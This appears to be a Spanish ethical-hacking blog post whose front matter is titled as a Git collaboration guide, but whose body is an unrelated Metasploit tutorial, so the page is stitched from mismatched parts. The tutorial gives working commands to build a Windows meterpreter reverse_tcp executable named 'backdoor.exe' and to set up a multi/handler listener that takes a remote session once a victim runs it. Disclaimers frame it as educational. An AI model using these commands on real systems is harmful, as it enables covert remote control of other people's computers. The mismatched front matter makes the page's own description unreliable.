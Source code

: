 ```yaml
---
# documentmode: jou  # Modo de documento: Can be jou (journal), man (manuscript), stu (student), or doc (document)
    # - man (Manuscrito): Similar al formato .docx
    # - jou (Revista): Un formato pulido de dos columnas similar a muchas revistas APA.
    # - doc (Documento): Similar al predeterminado LaTex artículos.
    # - stu (Estudiante): Formateado para trabajos de estudiantes
# MODO ESTUDIANTE (STU)
# course: Metodología (EDUC 5101)
# professor: Dr. Edison Achalma Mendoza
# duedate: 01/23/2022
# MODO REVISTA (JOU)
# journal: The American Economic Review # Econometrica, The American Economic Review, Revista de Economía, Revista de la CEPAL
# volume: 2025, Vol. 131, No. 2, 10--60
copyrightnotice: 2024
copyrightext: All rights reserved
# image: featured.png
title: Guía de Git Cómo trabajar en equipo en proyectos
subtitle: Aprende a usar Git para controlar versiones, colaborar con otros desarrolladores y mantener tu código organizado.
shorttitle: "Editar"
abstract: |
  Primer parrafo de abstrac
keywords: [keyword1, keyword2]
categories:
  - Operating System
  - GitHub
tags:
  - Git
  - GitHub
  - Colaboración
  - DesarrolloDeSoftware
  - GitBasics
  - GitAdvanced
  - GitTips
  - OpenSource

# Nota del Autor
author-note:
  status-changes: 
    # Ejemplo: [Nombre del autor] está ahora en [afiliación].
    affiliation-change: ~
    # Ejemplo: [Nombre del autor] ha fallecido.
    deceased: ~
  # Las divulgaciones se condensan en un párrafo, pero puede iniciar un campo con dos saltos de línea para separarlas: \n\nNew 
  disclosures:
    # Ejemplo: Este estudio se registró en X (Identificador Y).
    study-registration: ~
    # Reconozca y cite los datos/materiales que se van a compartir.
    data-sharing: ~
    # Ejemplo: Este artículo se basa en datos publicados en [Referencia].
    # Ejemplo: Este artículo se basa en la disertación realizada por [cita].
    related-report: ~
    # Ejemplo: [Nombre del autor] ha sido consultor remunerado de la Corporación X, que ha financiado este estudio.
    conflict-of-interest: El autor no tiene conflictos de interés que revelar.
    # Ejemplo: Este estudio ha contado con el apoyo de la subvención [Número de subvención] de [Fuente de financiación].
    financial-support: ~
    # Ejemplo: Los autores agradecen a [Persona] por [Motivo].
    gratitude: ~
    # Ejemplo. Dado que los autores contribuyen por igual, el orden de autoría se determinó mediante el lanzamiento de una moneda al aire.
    authorship-agreements: ~

description: '' # Texto que se muestra debajo de las etiquetas, no en la página del listado
# links:
# - icon: pin-map-fill
#   name: Collection of maps
#   url: /project/2024-06-16-ccd-sips #./../talk/2021-03-16-xaringan-deploy-demo/
# - icon: github
#   icon_pack: fab
#   name: R-Ladies template files
#   url: https://github.com/spcanelon/RLadies-xaringan-template
eval: false # true(predeterminado): evaluar celda de código, false: no evaluar la celda de código
# Google Scholar
# bibliography: mybibliography.bib
citation:
  type: article-journal
  author:
    - Edison Achalma
  pdf-url: https://achalmaedison.netlify.app/tecnologia-seguridad/operating-system/2023-02-16-guia-de-git-y-github/index.pdf
date: "02/16/2023"
draft: false  # Modo de borrador (false = final, true = borrador)
---
```










# Creando y Ejecutando un Payload Malicioso con Metasploit: Una Guía Paso a Paso

Hola a todos! Hoy vamos a sumergirnos en el fascinante mundo de la seguridad informática y la creación de un payload malicioso usando Metasploit. Si bien esta guía es con fines educativos, es crucial recordar que utilizar estas herramientas para actividades maliciosas es ilegal y antiético. ¡Usémoslas para aprender y proteger!

# Paso 1: Obtener la Dirección IP con ifconfig

Primero, necesitamos conocer nuestra dirección IP local para configurar el payload. Usamos el comando `ifconfig` para obtener esta información. Abre tu terminal y escribe:

```sh
ifconfig
```

Esto mostrará todas las interfaces de red y sus respectivas direcciones IP. Busca la IP de tu red local. En este ejemplo, supongamos que es `192.168.122.152`.

# Paso 2: Crear el Payload con msfvenom

Ahora que tenemos nuestra dirección IP, vamos a crear el payload. Usaremos `msfvenom`, una herramienta que viene con Metasploit para generar payloads maliciosos. Queremos crear un payload que permita un acceso remoto a una máquina con Windows. Usamos el siguiente comando:

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.122.152 LPORT=4444 -f exe -o backdoor.exe -a x64
```

Desglosamos el comando:

- `-p windows/x64/meterpreter/reverse_tcp`: Especificamos el payload, que en este caso es un Meterpreter reverse TCP para Windows de 64 bits.
- `LHOST=192.168.122.152`: Establecemos nuestra dirección IP local como el host de escucha.
- `LPORT=4444`: Elegimos el puerto de escucha (puedes cambiarlo si es necesario).
- `-f exe`: Indicamos que el formato de salida debe ser un archivo ejecutable de Windows.
- `-o backdoor.exe`: Nombramos el archivo de salida `backdoor.exe`.
- `-a x64`: Especificamos la arquitectura del payload (64 bits).

# Paso 3: Configurar el Handler en Metasploit

Una vez que tenemos nuestro payload, necesitamos configurar un handler en Metasploit para escuchar las conexiones entrantes. Iniciamos Metasploit con:

```sh
msfconsole -q
```

La opción `-q` es para iniciar Metasploit en modo silencioso.

# Paso 4: Configurar el Exploit Handler

En la consola de Metasploit, seguimos estos pasos:

1. **Seleccionar el handler**:

   ```sh
   msf6 > use exploit/multi/handler
   ```

   Esto indica que usaremos el módulo handler para gestionar la conexión entrante.

2. **Configurar el payload**:

   ```sh
   msf6 > set payload windows/x64/meterpreter/reverse_tcp
   ```

3. **Establecer el LHOST y LPORT**:

   ```sh
   msf6 > set lhost 192.168.122.152
   msf6 > set lport 4444
   ```

4. **Verificar las opciones**:

   ```sh
   msf6 > show options
   ```

   Esto muestra todas las opciones configuradas para asegurar que todo esté correcto.

# Paso 5: Ejecutar el Handler

Finalmente, ejecutamos el handler para empezar a escuchar conexiones:

```sh
msf6 > run
```

Ahora, el handler está activo y esperando que alguien ejecute el `backdoor.exe` en su máquina. Cuando esto suceda, obtendrás una sesión de Meterpreter y podrás interactuar con la máquina comprometida.

# Conclusión

Este proceso demuestra cómo se puede crear y manejar un payload malicioso usando Metasploit. Nuevamente, subrayo la importancia de utilizar este conocimiento de manera ética y legal, principalmente para probar y fortalecer la seguridad de sistemas. Siempre asegúrate de tener permiso para realizar estas pruebas.

Espero que hayas encontrado esta guía informativa y útil. ¡Hasta la próxima!







# Publicaciones Similares

Si te interesó este artículo, te recomendamos que explores otros blogs y recursos relacionados que pueden ampliar tus conocimientos. Aquí te dejo algunas sugerencias:


1. [{{< fa regular file-pdf >}}](https://achalmaedison.netlify.app/tecnologia-seguridad/ciberseguridad-ethical-hacking-ceh/2024-09-03-ejecutando-payload/index.pdf) [Ejecutando Payload](https://achalmaedison.netlify.app/tecnologia-seguridad/ciberseguridad-ethical-hacking-ceh/2024-09-03-ejecutando-payload)


Esperamos que encuentres estas publicaciones igualmente interesantes y útiles. ¡Disfruta de la lectura!

